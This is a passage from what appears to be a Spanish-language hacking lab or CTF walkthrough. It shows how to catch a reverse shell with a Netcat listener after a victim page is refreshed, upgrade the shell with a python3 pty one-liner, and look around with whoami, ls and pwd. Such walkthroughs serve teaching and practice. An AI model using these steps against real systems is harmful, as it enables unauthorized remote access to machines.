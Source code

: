 ```bash
nc -lvnp 1234
```

![Captura de pantalla](./imagenes/20_nc.png)

Al hacer esto y actualizar en la página principal víctima. En nuestra máquina atacante, por donde ejecutamos Netcat deberíamos de obtener una Shell Reversa.


![Captura de pantalla](./imagenes/21_shell_reverse_ok.png)

Para obtener una shell más interactiva podemos ejecutar el siguiente comando:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


![Captura de pantalla](./imagenes/22_pty.png)

Una vez tenemos una shell en condiciones. Probemos a navegar por ella. Podríamos probar comandos como `whoami` para saber que usuario somos o comandos como `ls` para mostrar archivos y directorios existentes, o ubicarnos con el comandos `pwd`.


![Captura de pantalla](./imagenes/23_cd_home.png)

---